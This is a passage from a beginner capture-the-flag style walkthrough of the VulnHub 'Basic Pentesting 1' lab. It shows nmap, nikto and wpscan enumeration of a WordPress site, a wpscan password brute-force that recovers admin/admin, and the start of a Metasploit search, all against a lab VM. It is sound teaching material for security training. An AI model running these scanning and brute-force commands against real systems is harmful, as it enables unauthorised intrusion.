| Comment:        These addresses are in use by many millions of independently operated networks, which might be as small as a single computer connected to a home gateway, and are automatically configured in hundreds of millions of devices.  They are only intended for use within a private context  and traffic that needs to cross the Internet will need to use a different, unique address.
| 
| Comment:        
| 
| Comment:        These addresses can be used by anyone without any need to coordinate with IANA or an Internet registry.  The traffic from these addresses does not come from ICANN or IANA.  We are not the source of activity you may see on logs or in e-mail records.  Please refer to http://www.iana.org/abuse/answers
| 
| Comment:        
| 
| Comment:        These addresses were assigned by the IETF, the organization that develops Internet protocols, in the Best Current Practice document, RFC 1918 which can be found at:
| 
| Comment:        http://datatracker.ietf.org/doc/rfc1918
| 
| Ref:            https://rdap.arin.net/registry/ip/192.168.0.0
| 
| 
| 
| 
| 
| 
| 
| OrgName:        Internet Assigned Numbers Authority
| 
| OrgId:          IANA
| 
| Address:        12025 Waterfront Drive
| 
| Address:        Suite 300
| 
| City:           Los Angeles
| 
| StateProv:      CA
| 
| PostalCode:     90292
| 
| Country:        US
| 
| RegDate:        
| 
| Updated:        2012-08-31
| 
| Ref:            https://rdap.arin.net/registry/entity/IANA
| 
| 
| 
| 
| 
| OrgAbuseHandle: IANA-IP-ARIN
| 
| OrgAbuseName:   ICANN
| 
| OrgAbusePhone:  +1-310-301-5820 
| 
| OrgAbuseEmail:  abuse@iana.org
| 
| OrgAbuseRef:    https://rdap.arin.net/registry/entity/IANA-IP-ARIN
| 
| 
| 
| OrgTechHandle: IANA-IP-ARIN
| 
| OrgTechName:   ICANN
| 
| OrgTechPhone:  +1-310-301-5820 
| 
| OrgTechEmail:  abuse@iana.org
| 
| OrgTechRef:    https://rdap.arin.net/registry/entity/IANA-IP-ARIN
| 
| 
| 
| 
| 
| #
| 
| # ARIN WHOIS data and services are subject to the Terms of Use
| 
| # available at: https://www.arin.net/resources/registry/whois/tou/
| 
| #
| 
| # If you see inaccuracies in the results, please report at
| 
| # https://www.arin.net/resources/registry/whois/inaccuracy_reporting/
| 
| #
| 
| # Copyright 1997-2021, American Registry for Internet Numbers, Ltd.
| 
| #
| 
| 
| 
===================================================================================================
| BANNER GRABBING: 
| X-Meta-Generator: WordPress 4.9
| Looking for Wordpress plugins: 
===================================================================================================
===================================================================================================
| PING
| 
| PING 192.168.125.135 (192.168.125.135) 56(84) bytes of data.
| 64 bytes from 192.168.125.135: icmp_seq=1 ttl=64 time=0.374 ms
| 64 bytes from 192.168.125.135: icmp_seq=2 ttl=64 time=0.495 ms
| 64 bytes from 192.168.125.135: icmp_seq=3 ttl=64 time=0.488 ms
| 64 bytes from 192.168.125.135: icmp_seq=4 ttl=64 time=0.486 ms
| 
| --- 192.168.125.135 ping statistics ---
| 4 packets transmitted, 4 received, 0% packet loss, time 3067ms
| rtt min/avg/max/mdev = 0.374/0.460/0.495/0.050 ms
===================================================================================================
| TRACEROUTE
| 
| traceroute to 192.168.125.135 (192.168.125.135), 30 hops max, 60 byte packets
|  1  192.168.125.135 (192.168.125.135)  9.938 ms  10.381 ms  10.717 ms
===================================================================================================
| NSLOOKUP
| 
| Server:		192.168.191.2
| Address:	192.168.191.2#53
| 
| ** server can't find 135.125.168.192.in-addr.arpa: NXDOMAIN
===================================================================================================
| NMAP
| 
| Starting Nmap 7.91 ( https://nmap.org ) at 2021-07-11 13:52 AEST
| NSE: Loaded 153 scripts for scanning.
| NSE: Script Pre-scanning.
| Initiating NSE at 13:52
| Completed NSE at 13:52, 0.00s elapsed
| Initiating NSE at 13:52
| Completed NSE at 13:52, 0.00s elapsed
| Initiating NSE at 13:52
| Completed NSE at 13:52, 0.00s elapsed
| Initiating ARP Ping Scan at 13:52
| Scanning 192.168.125.135 [1 port]
| Completed ARP Ping Scan at 13:52, 0.04s elapsed (1 total hosts)
| Initiating Parallel DNS resolution of 1 host. at 13:52
| Completed Parallel DNS resolution of 1 host. at 13:52, 6.52s elapsed
| Initiating SYN Stealth Scan at 13:52
| Scanning 192.168.125.135 [1000 ports]
| Discovered open port 80/tcp on 192.168.125.135
| Discovered open port 22/tcp on 192.168.125.135
| Discovered open port 21/tcp on 192.168.125.135
| Completed SYN Stealth Scan at 13:52, 2.32s elapsed (1000 total ports)
| Initiating Service scan at 13:52
| Scanning 3 services on 192.168.125.135
| Completed Service scan at 13:52, 10.02s elapsed (3 services on 1 host)
| Initiating OS detection (try #1) against 192.168.125.135
| NSE: Script scanning 192.168.125.135.
| Initiating NSE at 13:52
| Completed NSE at 13:52, 10.04s elapsed
| Initiating NSE at 13:52
| Completed NSE at 13:53, 28.04s elapsed
| Initiating NSE at 13:53
| Completed NSE at 13:53, 0.00s elapsed
| Nmap scan report for 192.168.125.135
| Host is up (0.033s latency).
| Not shown: 997 closed ports
| PORT   STATE SERVICE VERSION
| 21/tcp open  ftp     ProFTPD 1.3.3c
| 22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| | ssh-hostkey: 
| |   2048 d6:01:90:39:2d:8f:46:fb:03:86:73:b3:3c:54:7e:54 (RSA)
| |   256 f1:f3:c0:dd:ba:a4:85:f7:13:9a:da:3a:bb:4d:93:04 (ECDSA)
| |_  256 12:e2:98:d2:a3:e7:36:4f:be:6b:ce:36:6b:7e:0d:9e (ED25519)
| 80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
| | http-methods: 
| |_  Supported Methods: GET HEAD POST OPTIONS
| |_http-server-header: Apache/2.4.18 (Ubuntu)
| |_http-title: Site doesn't have a title (text/html).
| MAC Address: 00:0C:29:FB:93:05 (VMware)
| Device type: general purpose
| Running: Linux 3.X|4.X
| OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
| OS details: Linux 3.2 - 4.9
| Uptime guess: 161.330 days (since Sun Jan 31 06:58:16 2021)
| Network Distance: 1 hop
| TCP Sequence Prediction: Difficulty=261 (Good luck!)
| IP ID Sequence Generation: All zeros
| Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
| 
| TRACEROUTE
| HOP RTT      ADDRESS
| 1   32.77 ms 192.168.125.135
| 
| NSE: Script Post-scanning.
| Initiating NSE at 13:53
| Completed NSE at 13:53, 0.00s elapsed
| Initiating NSE at 13:53
| Completed NSE at 13:53, 0.00s elapsed
| Initiating NSE at 13:53
| Completed NSE at 13:53, 0.00s elapsed
| Read data files from: /usr/bin/../share/nmap
| OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
| Nmap done: 1 IP address (1 host up) scanned in 59.45 seconds
|            Raw packets sent: 1023 (45.806KB) | Rcvd: 1015 (41.290KB)
===================================================================================================
|
| Directory check:
| [+] CODE: 200 URL: http://192.168.125.135/secret/wp-admin/
===================================================================================================
|                                                                                                   
| File check:
| [+] CODE: 200 URL: http://192.168.125.135/secret/license.txt
| [+] CODE: 200 URL: http://192.168.125.135/secret/index.php
| [+] CODE: 200 URL: http://192.168.125.135/secret/readme.html
| [+] CODE: 200 URL: http://192.168.125.135/secret/wp-content/plugins/akismet/readme.txt
===================================================================================================
|
| Check robots.txt:
|
| Check sitemap.xml:
===================================================================================================
|
| Crawler Started:
| Plugin name: FCKeditor upload test v.1 Loaded.
| Plugin name: Timthumb <= 1.32 vulnerability v.1 Loaded.
| Plugin name: Upload Form Detect v.1.1 Loaded.
| Plugin name: Code Disclosure v.1.1 Loaded.
| Plugin name: E-mail Detection v.1.1 Loaded.
| Plugin name: External Host Detect v.1.2 Loaded.
| Plugin name: phpinfo() Disclosure v.1 Loaded.
| Plugin name: Web Backdoor Disclosure v.1.1 Loaded.
| [+] Crawling finished, 38 URL's found!
|
| FCKeditor File Upload:
|
| Timthumb:
|
| File Upload Forms:
|
| Source Code Disclosure:
|
| E-mails:
| [+] E-mail Found: m@tidakada.com
|
| External hosts:
| [+] External Host Found: https://planet.wordpress.org
| [+] External Host Found: https://www.mysql.com
| [+] External Host Found: https://httpd.apache.org
| [+] External Host Found: https://wordpress.org
| [+] External Host Found: http://gmpg.org
| [+] External Host Found: https://developer.wordpress.org
| [+] External Host Found: http://vtcsec
| [+] External Host Found: https://secure.php.net
| [+] External Host Found: https://codex.wordpress.org
|
| PHPinfo() Disclosure:
|
| Web Backdoors:
|
| Ignored Files: 
| http://192.168.125.135/secret/wp-admin/css/install.css?ver=20100228
===================================================================================================
| Dynamic tests:
| Plugin name: Learning New Directories v.1.2 Loaded.
| Plugin name: FCKedior tests v.1.1 Loaded.
| Plugin name: Timthumb <= 1.32 vulnerability v.1 Loaded.
| Plugin name: Find Backup Files v.1.2 Loaded.
| Plugin name: Blind SQL-injection tests v.1.3 Loaded.
| Plugin name: Local File Include tests v.1.1 Loaded.
| Plugin name: PHP CGI Argument Injection v.1.1 Loaded.
| Plugin name: Remote Command Execution tests v.1.1 Loaded.
| Plugin name: Remote File Include tests v.1.2 Loaded.
| Plugin name: SQL-injection tests v.1.2 Loaded.
| Plugin name: Cross-Site Scripting tests v.1.2 Loaded.
| Plugin name: Web Shell Finder v.1.3 Loaded.
| [+] 5 New directories added
|                                                                                                   
|                                                                                                   
| FCKeditor tests:
|                                                                                                   
|                                                                                                   
| Timthumb < 1.33 vulnerability:
|                                                                                                   
|                                                                                                   
| Backup Files:
|                                                                                                   
|                                                                                                   
| Blind SQL Injection:
|                                                                                                   
|                                                                                                   
| Local File Include:
|                                                                                                   
|                                                                                                   
| PHP CGI Argument Injection:
|                                                                                                   
|                                                                                                   
| Remote Command Execution:
|                                                                                                   
|                                                                                                   
| Remote File Include:
|                                                                                                   
|                                                                                                   
| SQL Injection:
|                                                                                                   
|                                                                                                   
| Cross-Site Scripting (XSS):
|                                                                                                   
|                                                                                                   
| Web Shell Finder:
===================================================================================================
| Static tests:
| Plugin name: Local File Include tests v.1.1 Loaded.
| Plugin name: Remote Command Execution tests v.1.1 Loaded.
| Plugin name: Remote File Include tests v.1.1 Loaded.
|                                                                                                   
|                                                                                                   
| Local File Include:
|                                                                                                   
|                                                                                                   
| Remote Command Execution:
|                                                                                                   
|                                                                                                   
| Remote File Include:
===================================================================================================
Scan end date: 11-7-2021 13:53:58



HTML report saved in: report/192.168.125.135.html
```

<p></p>
So the extra information we have gathered is:
<p></p>

```
===================================================================================================
|
| Directory check:
| [+] CODE: 200 URL: http://192.168.125.135/secret/wp-admin/
===================================================================================================
|                                                                                                   
| File check:
| [+] CODE: 200 URL: http://192.168.125.135/secret/license.txt
| [+] CODE: 200 URL: http://192.168.125.135/secret/index.php
| [+] CODE: 200 URL: http://192.168.125.135/secret/readme.html
| [+] CODE: 200 URL: http://192.168.125.135/secret/wp-content/plugins/akismet/readme.txt
===================================================================================================
|
| E-mails:
| [+] E-mail Found: m@tidakada.com
|
| External hosts:
| [+] External Host Found: https://planet.wordpress.org
| [+] External Host Found: https://www.mysql.com
| [+] External Host Found: https://httpd.apache.org
| [+] External Host Found: https://wordpress.org
| [+] External Host Found: http://gmpg.org
| [+] External Host Found: https://developer.wordpress.org
| [+] External Host Found: http://vtcsec
| [+] External Host Found: https://secure.php.net
| [+] External Host Found: https://codex.wordpress.org
```

<p></p>
Lets also run a quick niksto scan against these two sites. Nickto is a web vulnerability scanner you can view the help page by running 'nikto -H', The command will look like this:
<p></p>

```
nikto -h http://192.168.125.135 && nikto -h http://192.168.125.135/secret/
```

<p></p>
Notice the && between the two commands, this basically says run the first command then immediately run the second. THis outputs:
<p></p>

```
❯ nikto -h http://192.168.125.135 && nikto -h http://192.168.125.135/secret/
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          192.168.125.135
+ Target Hostname:    192.168.125.135
+ Target Port:        80
+ Start Time:         2021-07-11 14:08:36 (GMT10)
---------------------------------------------------------------------------
+ Server: Apache/2.4.18 (Ubuntu)
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ Server may leak inodes via ETags, header found with file /, inode: b1, size: 55e1c7758dcdb, mtime: gzip
+ Apache/2.4.18 appears to be outdated (current is at least Apache/2.4.37). Apache 2.2.34 is the EOL for the 2.x branch.
+ Allowed HTTP Methods: GET, HEAD, POST, OPTIONS 
+ Uncommon header 'link' found, with contents: <http://vtcsec/secret/index.php/wp-json/>; rel="https://api.w.org/"
+ OSVDB-3092: /secret/: This might be interesting...
+ OSVDB-3233: /icons/README: Apache default file found.
+ 7915 requests: 0 error(s) and 9 item(s) reported on remote host
+ End Time:           2021-07-11 14:09:38 (GMT10) (62 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          192.168.125.135
+ Target Hostname:    192.168.125.135
+ Target Port:        80
+ Start Time:         2021-07-11 14:09:38 (GMT10)
---------------------------------------------------------------------------
+ Server: Apache/2.4.18 (Ubuntu)
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ Uncommon header 'link' found, with contents: <http://vtcsec/secret/index.php/wp-json/>; rel="https://api.w.org/"
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ Apache/2.4.18 appears to be outdated (current is at least Apache/2.4.37). Apache 2.2.34 is the EOL for the 2.x branch.
+ Allowed HTTP Methods: GET, HEAD, POST, OPTIONS 
+ Web Server returns a valid response with junk HTTP methods, this may cause false positives.
+ DEBUG HTTP verb may show server debugging information. See http://msdn.microsoft.com/en-us/library/e8z01xdh%28VS.80%29.aspx for details.
+ /secret/wp-content/plugins/akismet/readme.txt: The WordPress Akismet plugin 'Tested up to' version usually matches the WordPress version
+ /secret/wp-links-opml.php: This WordPress script reveals the installed version.
+ OSVDB-3092: /secret/license.txt: License file found may identify site software.
+ /secret/: A Wordpress installation was found.
+ Cookie wordpress_test_cookie created without the httponly flag
+ /secret/wp-login.php: Wordpress login found
+ 7915 requests: 0 error(s) and 14 item(s) reported on remote host
+ End Time:           2021-07-11 14:10:42 (GMT10) (64 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
```

<p></p>
This didn't return anything new for us that we haven't already found so lets begin looking at the web page. Navigating to the webpage presents us with this:
<p></p>
<div align="center">
<img src="https://github.com/Shadow-Admins/Cyber_Club/blob/7499d3c6d163155de5b164595db2b60e6d6bae70/Starting_Point/VulnHub/BasicPentesting1/images/itworks.png"><br>
</div>
<p></p>
Not very exciting and from our enumeration we know there isn't much else going on with this page, even if we look at the page source it's likely a dead end.
<p></p>

```
<html><body><h1>It works!</h1>
<p>This is the default web page for this server.</p>
<p>The web server software is running but no content has been added, yet.</p>
</body></html>
```

<p></p>
We should move to the '/secret/' directory and have a look around.
<p></p>
<div align="center">
<img src="https://github.com/Shadow-Admins/Cyber_Club/blob/61e96aed2b5910af22c61fcca7e17d78fa7a1fc8/Starting_Point/VulnHub/BasicPentesting1/images/secret.png"><br>
</div>
<p></p>
This looks a bit more interesting. And now that we are working with wordpress you should look over <a href="https://book.hacktricks.xyz/pentesting/pentesting-web/wordpress" rel="nofollow">HackTricks</a> page on wordpress.
<p></p>
Lets have a look around the blog, we can see that there is a post called 'Hello world!' If we navigate to that we find a user, 'admin'.
<p></p>
<div align="center">
<img src="https://github.com/Shadow-Admins/Cyber_Club/blob/923d1b123903f075e0892872580e2dc32bd87927/Starting_Point/VulnHub/BasicPentesting1/images/blogadmin.png"><br>
</div>
<p></p>
We can also see that when we clicked on the post the address changed from an ip address to 'vtcsec' we identified this in our earlier enumeration, we can tidy up our navigation around the site by adding this to our hosts file. If we dont do this some strange things can happen. To do this we enter the following command:
<p></p>

```
nano /etc/hosts
```

<p></p>
Then you will add the ip of the VM followed by a 'tab' followed by 'vtcsec'. Bellow is a screen grab for reference.
<p></p>
<div align="center">
<img src="https://github.com/Shadow-Admins/Cyber_Club/blob/a0283ba0fc38e3eb65342802bf329635ae65d09b/Starting_Point/VulnHub/BasicPentesting1/images/hosts.png"><br>
</div>
<p></p>
If we continue to navigate around the page at the bottom right you can see 'log in' if we navigate there we end up at a word press login page.
<p></p>
<div align="center">
<img src="https://github.com/Shadow-Admins/Cyber_Club/blob/c33e1d908deadee4349dc570e0deda16fe75fbc2/Starting_Point/VulnHub/BasicPentesting1/images/login.png"><br>
</div>
<p></p>
<div align="center">
<img src="https://github.com/Shadow-Admins/Cyber_Club/blob/d536ccb994168aeb6f73d8aba2c5b4d1249477e4/Starting_Point/VulnHub/BasicPentesting1/images/wplogin.png"><br>
</div>
<p></p>
And that is everything of interest looking at the site, now we can begin enumerating it to see if we can pull any more information. To begin we will use wpscan to run a general scan (you can view wpscans help file using wpscan -h). The command we will use is:

<p></p>

```
wpscan --url 192.168.125.135/secret/ -e p
```

<p></p>
This command is pretty simple, <kbd>--url</kbd> points to the ip address and <kbd>-e p</kbd> tells wpscan to use all the popular plugins.
Which outputs:
<p></p>

```
❯ wpscan --url 192.168.125.135/secret/ -e p
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.17
       Sponsored by Automattic - https://automattic.com/
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________

[+] URL: http://192.168.125.135/secret/ [192.168.125.135]
[+] Started: Sun Jul 11 17:11:09 2021

Interesting Finding(s):

[+] Headers
 | Interesting Entry: Server: Apache/2.4.18 (Ubuntu)
 | Found By: Headers (Passive Detection)
 | Confidence: 100%

[+] XML-RPC seems to be enabled: http://192.168.125.135/secret/xmlrpc.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%
 | References:
 |  - http://codex.wordpress.org/XML-RPC_Pingback_API
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_ghost_scanner/
 |  - https://www.rapid7.com/db/modules/auxiliary/dos/http/wordpress_xmlrpc_dos/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_pingback_access/

[+] WordPress readme found: http://192.168.125.135/secret/readme.html
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] The external WP-Cron seems to be enabled: http://192.168.125.135/secret/wp-cron.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 60%
 | References:
 |  - https://www.iplocation.net/defend-wordpress-from-ddos
 |  - https://github.com/wpscanteam/wpscan/issues/1299

[+] WordPress version 4.9 identified (Insecure, released on 2017-11-16).
 | Found By: Emoji Settings (Passive Detection)
 |  - http://192.168.125.135/secret/, Match: 'wp-includes\/js\/wp-emoji-release.min.js?ver=4.9'
 | Confirmed By: Meta Generator (Passive Detection)
 |  - http://192.168.125.135/secret/, Match: 'WordPress 4.9'

[i] The main theme could not be detected.

[+] Enumerating Most Popular Plugins (via Passive Methods)

[i] No plugins Found.

[!] No WPScan API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 25 daily requests by registering at https://wpscan.com/register

[+] Finished: Sun Jul 11 17:11:10 2021
[+] Requests Done: 25
[+] Cached Requests: 4
[+] Data Sent: 7.079 KB
[+] Data Received: 120.037 KB
[+] Memory used: 172.602 MB
[+] Elapsed time: 00:00:01
```

<p></p>
The most important information we found was:
<p></p>

```
[+] WordPress version 4.9 identified (Insecure, released on 2017-11-16).
```

<p></p>
So we know this version of wordpress is insecure. Lets see if we can find anymore users using wpscan. The command we will use is:
<p></p>

```
wpscan --url 192.168.125.135/secret/ -e u1-10
```

<p></p>
The difference in this command comes at the <kbd>-e</kbd> flag which points to <kbd>u1-10</kbd> which will look for users with an id between 1 and 10. This command outputs:
<p></p>

```
❯ wpscan --url 192.168.125.135/secret/ -e u1-10
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.17
       Sponsored by Automattic - https://automattic.com/
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________

[+] URL: http://192.168.125.135/secret/ [192.168.125.135]
[+] Started: Sun Jul 11 17:17:41 2021

Interesting Finding(s):

[+] Headers
 | Interesting Entry: Server: Apache/2.4.18 (Ubuntu)
 | Found By: Headers (Passive Detection)
 | Confidence: 100%

[+] XML-RPC seems to be enabled: http://192.168.125.135/secret/xmlrpc.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%
 | References:
 |  - http://codex.wordpress.org/XML-RPC_Pingback_API
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_ghost_scanner/
 |  - https://www.rapid7.com/db/modules/auxiliary/dos/http/wordpress_xmlrpc_dos/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_pingback_access/

[+] WordPress readme found: http://192.168.125.135/secret/readme.html
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] The external WP-Cron seems to be enabled: http://192.168.125.135/secret/wp-cron.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 60%
 | References:
 |  - https://www.iplocation.net/defend-wordpress-from-ddos
 |  - https://github.com/wpscanteam/wpscan/issues/1299

[+] WordPress version 4.9 identified (Insecure, released on 2017-11-16).
 | Found By: Emoji Settings (Passive Detection)
 |  - http://192.168.125.135/secret/, Match: 'wp-includes\/js\/wp-emoji-release.min.js?ver=4.9'
 | Confirmed By: Meta Generator (Passive Detection)
 |  - http://192.168.125.135/secret/, Match: 'WordPress 4.9'

[i] The main theme could not be detected.

[+] Enumerating Users (via Passive and Aggressive Methods)
 Brute Forcing Author IDs - Time: 00:00:00 <================================================================================================================> (10 / 10) 100.00% Time: 00:00:00

[i] User(s) Identified:

[+] admin
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

[!] No WPScan API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 25 daily requests by registering at https://wpscan.com/register

[+] Finished: Sun Jul 11 17:17:42 2021
[+] Requests Done: 25
[+] Cached Requests: 28
[+] Data Sent: 6.824 KB
[+] Data Received: 174.938 KB
[+] Memory used: 124.84 MB
[+] Elapsed time: 00:00:00
```

<p></p>
We didnt find any other usernames except admin which we found when we were looking around the site to begin with so we will move onto breaking into the site.
<p></p>
Since this write up is designed for very beginners I will take you through how to break into the site using wpscan and a password list which is very easy however it is possible to use hydra to break into this site because of its bad configuration, if you want to know how to do this refer to my <a href="https://github.com/Shadow-Admins/Cyber_Club/tree/main/Starting_Point/VulnHub/MrRobot" rel="nofollow">writeup</a> on Mr Robot where I take you through enumerating and bruteforcing wordpress using hydra (this skill can be used in more situations than wpscan so is a good tool to have in your arsenel).
<p></p>
To bruteforce into the site we will use the following command:
<p></p>

```
wpscan --url 192.168.125.135/secret/wp-login.php -U admin -P /usr/share/wordlists/SecLists/Passwords/cirt-default-passwords.txt --force
```

<p></p>
In this command you can see the change is to the end of the command, the <kbd>-U</kbd> flag points to the username we discovered, the <kbd>-P</kbd> flag points to the password file we wish to use in this case the cirt-default-passwords.txt file from <a href="https://github.com/danielmiessler/SecLists" rel="nofollow">SecLists</a> which is an essential git you need to pull it is full of all types of lists for enumerating and bruteforcing. finally you can see the <kbd>--force</kbd> flag, I had to use this because I kept getting an error saying that the site wasn't running wordpress, which we know it is. THis command outputs the following:
<p></p>

```
❯ wpscan --url 192.168.125.135/secret/wp-login.php -U admin -P /usr/share/wordlists/SecLists/Passwords/cirt-default-passwords.txt --force
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.17
       Sponsored by Automattic - https://automattic.com/
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________

[+] URL: http://192.168.125.135/secret/wp-login.php/ [192.168.125.135]
[+] Started: Sun Jul 11 18:05:46 2021

Interesting Finding(s):

[+] Headers
 | Interesting Entry: Server: Apache/2.4.18 (Ubuntu)
 | Found By: Headers (Passive Detection)
 | Confidence: 100%

[+] WordPress readme found: http://192.168.125.135/secret/wp-login.php/readme.html
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] This site seems to be a multisite
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%
 | Reference: http://codex.wordpress.org/Glossary#Multisite

[+] The external WP-Cron seems to be enabled: http://192.168.125.135/secret/wp-login.php/wp-cron.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 60%
 | References:
 |  - https://www.iplocation.net/defend-wordpress-from-ddos
 |  - https://github.com/wpscanteam/wpscan/issues/1299

Fingerprinting the version - Time: 00:00:02 <=============================================================================================================> (632 / 632) 100.00% Time: 00:00:02
[i] The WordPress version could not be detected.

[i] The main theme could not be detected.

[+] Enumerating All Plugins (via Passive Methods)

[i] No plugins Found.

[+] Enumerating Config Backups (via Passive and Aggressive Methods)
 Checking Config Backups - Time: 00:00:00 <===============================================================================================================> (137 / 137) 100.00% Time: 00:00:00

[i] No Config Backups Found.

[+] Performing password attack on Wp Login against 1 user/s
[SUCCESS] - admin / admin                                                                                                                                                                     
Trying admin / admin Time: 00:00:03 <======================================                                                                               > (535 / 1576) 33.94%  ETA: ??:??:??

[!] Valid Combinations Found:
 | Username: admin, Password: admin

[!] No WPScan API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 25 daily requests by registering at https://wpscan.com/register

[+] Finished: Sun Jul 11 18:05:53 2021
[+] Requests Done: 1306
[+] Cached Requests: 823
[+] Data Sent: 676.626 KB
[+] Data Received: 2.088 MB
[+] Memory used: 185.473 MB
[+] Elapsed time: 00:00:07
```

<p></p>
And we got a return:
<p></p>

```
[!] Valid Combinations Found:
 | Username: admin, Password: admin
```

<p></p>
Now we can log into the page and are presented with the dashboard.
<p></p>
<div align="center">
<img src="https://github.com/Shadow-Admins/Cyber_Club/blob/08dbc91b08a4f842635de0c5bfb0d95e5707de45/Starting_Point/VulnHub/BasicPentesting1/images/wpdashboard.png"><br>
</div>
<p></p>
Now what to do, again if you refer to my <a href="https://github.com/Shadow-Admins/Cyber_Club/tree/main/Starting_Point/VulnHub/MrRobot" rel="nofollow">writeup</a> on Mr Robot you can see how to include a php reverse shell in the page however we are going to be even more simple in this situation. We are going to use msfconsole to get us a shell (note I couldn't get this method to work but I know it can be done so I will still include how to do it). First we need to start msf, to do this we run:
<p></p>

```
msfconsole
```

<p></p>
Which outputs:
<p></p>

```
❯ msfconsole
                                                  

      .:okOOOkdc'           'cdkOOOko:.
    .xOOOOOOOOOOOOc       cOOOOOOOOOOOOx.
   :OOOOOOOOOOOOOOOk,   ,kOOOOOOOOOOOOOOO:
  'OOOOOOOOOkkkkOOOOO: :OOOOOOOOOOOOOOOOOO'
  oOOOOOOOO.    .oOOOOoOOOOl.    ,OOOOOOOOo
  dOOOOOOOO.      .cOOOOOc.      ,OOOOOOOOx
  lOOOOOOOO.         ;d;         ,OOOOOOOOl
  .OOOOOOOO.   .;           ;    ,OOOOOOOO.
   cOOOOOOO.   .OOc.     'oOO.   ,OOOOOOOc
    oOOOOOO.   .OOOO.   :OOOO.   ,OOOOOOo
     lOOOOO.   .OOOO.   :OOOO.   ,OOOOOl
      ;OOOO'   .OOOO.   :OOOO.   ;OOOO;
       .dOOo   .OOOOocccxOOOO.   xOOd.
         ,kOl  .OOOOOOOOOOOOO. .dOk,
           :kk;.OOOOOOOOOOOOO.cOk:
             ;kOOOOOOOOOOOOOOOk:
               ,xOOOOOOOOOOOx,
                 .lOOOOOOOl.
                    ,dOd,
                      .

       =[ metasploit v6.0.44-dev                          ]
+ -- --=[ 2131 exploits - 1139 auxiliary - 363 post       ]
+ -- --=[ 592 payloads - 45 encoders - 10 nops            ]
+ -- --=[ 8 evasion                                       ]

Metasploit tip: You can use help to view all 
available commands

msf6 > 
```

<p></p>
Next we need to search for wordpress using the following command:
<p></p>

```
search wordpress
```

<p></p>
Which outputs: (note I am only showing the first 25 entries because it is a 95 long list)
<p></p>

```
msf6 > search wordpress

Matching Modules
================

   #   Name                                                           Disclosure Date  Rank       Check  Description
   -   ----                                                           ---------------  ----       -----  -----------
   0   auxiliary/scanner/http/wp_abandoned_cart_sqli                  2020-11-05       normal     No     Abandoned Cart for WooCommerce SQLi Scanner
   1   exploit/windows/fileformat/adobe_flashplayer_button            2010-10-28       normal     No     Adobe Flash Player "Button" Remote Code Execution
   2   exploit/windows/browser/adobe_flashplayer_newfunction          2010-06-04       normal     No     Adobe Flash Player "newfunction" Invalid Pointer Use
   3   exploit/windows/fileformat/adobe_flashplayer_newfunction       2010-06-04       normal     No     Adobe Flash Player "newfunction" Invalid Pointer Use
   4   exploit/osx/local/rootpipe_entitlements                        2015-07-01       great      Yes    Apple OS X Entitlements Rootpipe Privilege Escalation
